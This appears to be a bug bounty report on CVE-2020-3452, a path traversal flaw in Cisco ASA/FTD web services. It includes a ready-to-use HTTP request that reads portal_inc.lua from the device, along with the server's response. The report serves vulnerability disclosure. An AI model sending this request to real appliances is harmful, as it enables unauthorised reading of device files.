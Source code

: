 

# Path traversal allows arbitrary file read (CVE-2020-3452)

## Summary

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.


## Affected assets 

$URL

## Steps To Reproduce:
 
 Let's try to read the portal_inc.lua file. 

 1. Using Burp, copy and paste the following request:
```
GET /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua HTTP/1.1
Host: REDACTED
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close




```
2. You will see the content of the file
```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Tue, 08 Jun 2021 13:46:08 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 27555

-- Copyright (C) 2006-2018 by Cisco Systems, Inc.
-- Created by otrizna@cisco.com

dofile("/+CSCOE+/include/common.lua")
**Truncated**
```

Output file is attached. 


## Impact
A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device.

### Supporting Material/References:
https://nvd.nist.gov/vuln/detail/CVE-2020-3452
https://hackerone.com/reports/936399

